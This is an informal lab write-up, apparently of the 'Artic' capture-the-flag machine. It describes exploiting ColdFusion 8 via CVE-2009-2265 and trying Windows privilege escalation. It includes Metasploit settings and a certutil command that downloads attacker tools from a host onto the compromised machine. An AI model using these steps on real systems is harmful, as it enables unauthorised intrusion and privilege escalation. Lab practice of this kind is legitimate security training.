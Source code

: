 
Name: Artic
Date:  
Difficulty:  
Description:  
Better Description:  
Goals:  
Learnt:

## Recon

![ping](Screenshots/ping-os-test.png)

There is some kind of anti-bruteforcing in place on the web server. 
Reset the box once to check and the second to continue without bruteforcing anything.
Here are the two directories:
![dirs1](Screenshots/cfdocs-dir.png)

![dirs2](Screenshots/cfide-dir.png)

`CFIDE/wizards/common/_logintowizard.cfm` and `/CFIDE/wizards/common/_authenticatewizarduser.cfm`
The default password `admin` works but so does anything else as templates but neither is linked to actual functionality of the site. Tried default password on the /administrator. Did not work. I also tried injecting a request to wait tcpdump to see if &path= variable was exploitable before dorking exploits for abode fusion 8. 

## Exploit

There is a [metasploit module](https://www.exploit-db.com/exploits/16788) for [CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265). 
Before changes:
![metasploit](Screenshots/metasploit-setup.png)

I tried on the second it worked, with the smae settings: 
```bash
set lhost tun0
set rport 8500
```
Due to the OSCP restrictions on Metasploit usage.
Here is a good is a good [python exploit](https://github.com/0xkasra/CVE-2009-2265)
![exploit](Screenshots/exploit.png)

![listen](Screenshots/listener.png)

![foothold](Screenshots/foothold.png)

Included in screenshot are possible privesc through user privileges which I may return once I enumerate the box.

![systeminfo](Screenshots/systeminfo.png)

`C:\Users\tolis\Desktop\user.txt`

## PrivEsc

Used certutil to transfer nc.exe, windowsprivchecker.bat and wes-ng
I tried alot of other things that kicked me off or did not run in either /runtime/bin and /users/tolis


```powershell
certutil.exe -urlcache -split -f "http://$IP/$tools"
```

Basically I would have to blow my metasploit on this machine.
Before reading a writeup to the walkthrough the same process I will redo the metasploit version with the post module as meterpreter just seems although a good way to end in one usage, I am at the PrivEsc phase. Plus I have not use it enough so far. Even the post module did not work. Then meterpreter did not work. I research ways to host files on windows as it seems like a hobby at this point finding and archiving every possible way to transfer files. I ended up copying and pasting into a systeminfo.txt file to this directory. Wesng works, but does not find the intend route. 

```bash
./wes.py --update
./wes.py systeminfo.txt > wesng-out.txt
```
There is a kernel exploit for the cpu that has metasploit module to it. I tried that did not work as well doing it manually compiling it, but I could not finder one of the headers. Write ups suggest a pre-compiled binary. That seems really stupid. There is metasploit module for this so this machine is basically goodbye your metasploit usage in the exam machines given time constraints. 

[manual](https://www.exploit-db.com/exploits/15589) Seems like there are errors in the script.

At this point after multiple days trying to crack this. I revert this to a walkthrough for the remaining part.
From a multitude of writeups that I have then read and watched, either its through metasploit... or a precompiled binary from github...
